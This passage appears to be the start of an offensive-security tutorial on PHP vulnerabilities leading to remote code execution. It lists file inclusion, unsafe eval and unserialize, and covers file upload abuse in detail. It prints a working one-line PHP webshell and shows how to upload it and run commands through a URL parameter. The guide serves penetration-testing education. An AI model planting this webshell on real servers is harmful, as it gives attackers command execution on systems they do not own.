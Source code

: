 # PHP

This is an overview of common PHP-based web vulnerabilities that can lead to remote code execution (RCE).

At the bottom is a cheatsheet for dangerous PHP functions.

* [File Upload Abuse](#file-upload-abuse)
* [File Inclusions](#file-inclusions)
  * [Local File Inclusion (LFI)](#local-file-inclusion)
  * [Remote File Inclusion (RFI)](#remote-file-inclusion)
* [Unsafe eval()](#unsafe-eval)
* [Unsafe unserialize()](#unsafe-unserialize)
* [Dangerous PHP functions Reference](#dangerous-php-functions-reference)


## File Upload Abuse

This vulnerability can occur with all web servers that support dynamically generated web pages via server-side scripting (PHP, JSP, ASP and co).

The most blatant example for this vulnerability would be: 

* A web server runs PHP 
* It allows you to upload arbitrary files
* Those files get stored somewhere in the server directory and are accessible by the user

This usually either happens through some web application that allows you to upload files via a web form, or there is some open FTP server, SMB share, other dedicated file upload service that allows you to plant files in the web server directory.

Of course what you can then do is simply uploading a PHP file with your malicious code and open it in your browser. 

Create a PHP file `shell.php` with the following content:

```php
<?php echo '<pre>' . shell_exec(urldecode($_GET['cmd'])) . '</pre>';?>
```

This is called a "webshell". Upload it to the server.

When you access that PHP file with your browser, then you can supply commands via the `?cmd=command_here` url parameter and get the output of the command printed in your browser:
```default
http://vulnserver.example/uploads/shell.php?cmd=whoami
```
Your browser prints:
```php
www-data
```
Code Execution achieved.


### Upload Filters

Now the above example is rather obvious. Most developers have at least some common sense and try to limit what you can upload.
